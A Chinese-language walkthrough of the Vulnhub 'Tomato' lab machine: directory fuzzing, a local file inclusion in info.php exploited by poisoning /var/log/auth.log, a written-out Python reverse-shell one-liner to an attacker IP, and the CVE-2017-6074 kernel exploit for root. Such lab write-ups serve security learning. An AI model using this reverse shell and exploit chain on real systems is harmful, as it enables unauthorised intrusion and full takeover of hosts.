 ```yaml
---
title: Tomato
date: 2021-12-24 20:35:20
tags: Vulnhub
categories: 文件包含漏洞
---
```


## 信息收集
运行我们的bash脚本，发现目标系统开放了ftp和web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/b2f1b07f20b74e8cbbf09d8aceb93286.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试是否可以匿名登录ftp，未果
![在这里插入图片描述](https://img-blog.csdnimg.cn/074a7cd93bf64ed3aa33a1e7ba57281e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

我们访问web服务，发现是一个番茄图片，查看源码也没什么发现

<!--more-->

![在这里插入图片描述](https://img-blog.csdnimg.cn/6fbb54145b634516a076f26d15d098ad.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

我们fuzz一下路径，发现了存在一个antibot_image路径

```bash
dirsearch -u "http://192.168.101.197/" -e * -x404,500,403 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/fa0487042a3d48909ab79d96a12532a8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

我们发现存在一个info.php文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/a59aa7bf23b2400cb4fd41b01cea33d7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
文件的源码提示我们存在文件包含漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/39d170ef77ee482988bbfd4d37ecc20b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们验证漏洞确实是真实存在的
![在这里插入图片描述](https://img-blog.csdnimg.cn/b6bee6c21fc2499999963c8682e6f3cf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 漏洞利用
我们尝试将一句话写进日志文件中，日志文件的路径为`/var/log/auth.log`，发现已被写入日志并成功执行我们的命令
![在这里插入图片描述](https://img-blog.csdnimg.cn/8fc98d199a4845c1a5e8d72245c7b934.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/bf1f3a8f67a6457998b22f5bd225ccc2.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们就可以查找python是否存在，若存在则可以反弹shell到我们本地的机子上。可以看到python是存在的，并且版本为3.5
![在这里插入图片描述](https://img-blog.csdnimg.cn/4d606cef990543d381d880d6a94f170c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们将执行如下的payload添加到cmd参数后获得一个shell

```python
python3 -c 'import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.101.196",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"])'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/8ac1207e853b4bfa8655671b22b4939d.png)
## 提权
我们将linpeas.sh脚本上传到靶机上，并执行它
![在这里插入图片描述](https://img-blog.csdnimg.cn/23a8477f887a40c3b6df7f1df69d406b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发现存在一个linux内核漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/e962cb6858c242bea4f04c0d8d28b3b1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们发现这个内核漏洞对应的漏洞编号为`CVE-2017-6074`，我们将其编译变上传到靶机上，执行即root
![在这里插入图片描述](https://img-blog.csdnimg.cn/8d5db74c976140df8fd5b0d408768a02.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/335e4f13aa7e4d8c9ebaf95cb4c8749c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

